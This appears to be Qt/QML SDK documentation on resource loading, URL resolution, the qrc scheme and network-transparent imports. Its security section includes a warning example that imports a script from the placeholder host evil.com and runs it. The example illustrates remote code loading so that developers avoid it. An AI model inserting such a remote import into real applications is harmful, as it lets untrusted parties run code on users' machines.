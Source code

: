 .. _sdk_qtqml_resource_loading_and_network_transparency:

QtQml Resource Loading and Network Transparency
===============================================


QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:

.. code:: qml

    Image {
        source: "http://www.example.com/images/logo.png"
    }

Since a *relative* URL is the same as a relative file, development of QML on regular file systems remains simple:

.. code:: qml

    Image {
        source: "images/logo.png"
    }

Network transparency is supported throughout QML, for example:

-  Fonts - the ``source`` property of FontLoader is a URL
-  WebViews - the ``url`` property of WebView (obviously!)

Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load ``http://example.com/mystuff/Hello.qml`` and that content refers to a type "World", the engine will load ``http://example.com/mystuff/qmldir`` and resolve the type just as it would for a local file. For example if the qmldir file contains the line "World World.qml", it will load ``http://example.com/mystuff/World.qml`` Any other resources that ``Hello.qml`` referred to, usually by a relative URL, would similarly be loaded from the network.

Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.

For example, consider this content in ``http://example.com/mystuff/test.qml``:

.. code:: qml

    Image {
        source: "images/logo.png"
    }

The Image source property will be assigned ``http://example.com/mystuff/images/logo.png``, but while the QML is being developed, in say ``C:\User\Fred\Documents\MyStuff\test.qml``, it will be assigned ``C:\User\Fred\Documents\MyStuff\images\logo.png``.

If the string assigned to a URL is already an absolute URL, then "resolving" does not change it and the URL is assigned directly.

One of the URL schemes built into Qt is the "qrc" scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:

.. code:: cpp

        QQuickView *view = new QQuickView;
        view->setUrl(QUrl("qrc:/dial.qml"));

The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.

The ``import`` statement is only network transparent if it has an "as" clause.

More specifically:

-  ``import "dir"`` only works on local file systems
-  ``import libraryUri`` only works on local file systems
-  ``import "dir" as D`` works network transparently
-  ``import libraryUrl as U`` works network transparently

The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.

In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:

.. code:: qml

    import QtQuick 2.0
    import "http://evil.com/evil.js" as Evil
    Component {
        onLoaded: Evil.doEvil()
    }

This is equivalent to downloading and executing "http://evil.com/evil.exe". **The QML engine will not prevent particular resources from being loaded**. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.

As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. **Do not, for example, use ``import``, Loader or `XMLHttpRequest </sdk/apps/qml/QtQml/qtqml-javascript-qmlglobalobject/#xmlhttprequest>`_  to load any untrusted code or content.**

